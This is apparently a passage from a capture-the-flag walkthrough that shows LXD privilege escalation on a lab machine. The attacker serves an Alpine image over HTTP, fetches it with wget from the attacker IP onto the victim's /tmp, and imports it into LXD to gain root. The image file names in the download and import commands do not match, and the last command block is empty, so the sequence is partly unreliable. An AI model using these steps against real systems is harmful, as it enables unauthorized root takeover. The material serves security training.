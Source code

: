 We can use the following python command to start a local webserver
``` shell 
python -m SimpleHTTPServer 8888
```
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="70%"  src="media/image186.png"></div>

On the host(victim) machine we can download the file “**tar.gz**” using
the command “wget” as follow:

-   First we move into the /tmp folder

-   Then we run the command

``` shell 
mike@included:/$ cd /tmp
mike@included:/tmp$ wget 10.10.14.3:8888/alpine-v3.10-x86_64-20191008_1227.tar.gz
```


We will see that our file has been transferred/downloaded.
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="70%"  src="media/image187.png"></div>


Next, we run the following commands to get the root.

First we built the image and can be added as an image to LXD as follows:

``` shell 
mike@included:/tmp$ lxc image import ./alpine-v3.12-x86_64-20200728_1438.tar.gz --alias <aliasName>
mike@included:/tmp$ lxc image import ./alpine-v3.12-x86_64-20200728_1438.tar.gz --alias rootimage
```


In the above command we used “rootimage” as ALIAS but it could ahve been
any name
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="70%"  src="media/image188.png"></div>


We can use the list command to check the list of images
``` shell 
mike@included:/$
```
<div style="width:100%; background-color:#252b34;text-align: left;border: 1px solid black;" ><img width="70%"  src="media/image189.png"></div>
